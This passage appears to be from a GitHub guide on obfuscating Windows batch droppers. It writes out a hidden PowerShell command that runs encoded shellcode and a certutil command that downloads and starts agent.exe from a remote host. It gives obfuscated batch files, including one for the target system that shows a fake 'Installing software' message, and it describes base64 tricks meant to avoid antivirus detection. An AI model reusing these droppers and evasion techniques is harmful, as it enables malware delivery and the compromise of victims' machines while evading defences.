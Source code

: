 <br />

- String command to obfuscate<br />
`cmd.exe /c powershell.exe -nop -wind hidden -Exec Bypass -noni -enc $shellcode`<br />

- String obfuscated (**template.bat**)<br />

      @echo off
      SET varObj=abcdefghijlmnopqrstuvxzkyW0123456789ABCDEFGHIJLMNOPQRSTUVXZKYW
      %varObj:~2,1%%varObj:~11,1%%varObj:~3,1%.exe /c %varObj:~14,1%%varObj:~13,1%%varObj:~25,1%%varObj:~4,1%%varObj:~16,1%%varObj:~17,1%%varObj:~7,1%%varObj:~6,1%%varObj:~10,1%%varObj:~10,1%.exe -nop -%varObj:~25,1%%varObj:~8,1%%varObj:~3,1%%varObj:~3,1%%varObj:~4,1%%varObj:~12,1% -%varObj:~40,1%%varObj:~21,1%%varObj:~4,1%%varObj:~2,1% %varObj:~37,1%%varObj:~24,1%%varObj:~14,1%%varObj:~0,1%%varObj:~17,1%%varObj:~17,1% -noni -%varObj:~4,1%%varObj:~12,1%%varObj:~2,1% $shellcode
      exit

![batch obfuscation](http://i67.tinypic.com/2zdu9z7.jpg)

[!] [Description of %varObj% MasterKey (importante reading to understand the mechanism)](https://github.com/r00t-3xp10it/hacking-material-books/blob/master/obfuscation/pedro-Wandoelmo-key.md)<br />

---

      [ certutil - Additional Methods for Remote Download ]
      Sometimes we need to use non-conventional methods to deliver our agent to target
      system and bypass detection, in this situation certutil can be an useful asset.

<br />

- String command to obfuscate<br />
`cmd.exe /c certutil.exe -urlcache -split -f http://192.168.1.71/agent.exe agent.exe && start agent.exe`<br />

- File **certutil-dropper.bat** to be executed in target system

      @echo off
      sEt !h=e
      sEt db=c
      sEt 0x=a
      echo [+] Please Wait, Installing software ..
      ;%db%M%A0%d"."eX%!h% /%db% @%db%e"r"Tu%A1%tIl.%!h%^xe "-"u^R%A0%l%db%Ac^h%!h% "-"sP%A0%l^i%A8%T -f ht%A0%tp://19%d0%2.1%A0%68.1.71/agent.exe agent.exe && start agent.exe
      exit

![batch obfuscation certutil.bat](http://i68.tinypic.com/jsfuq1.jpg)
`HINT: If you desire to send an .bat payload then delete 'start' from the sourcecode`<br />

---

      Using base64 stings decoded at runtime are a Useful obfuscation trick, because
      the agent.bat dosen't contain any real malicious syscall's to be scan/flagged.

      HINT: Since windows dosen't have a base64 term interpreter built in installed,
      we have two choises to decode the base64 encoded syscall, or use the built in
      powershell (::FromBase64String) switch to decode our syscall or we chose to use
      certutil, but certuil onlly accepts strings taken from inside a text file, in
      that situation we instruct our script to writte the text files containing the
      obfuscated syscall's before further head using certutil to decode them.
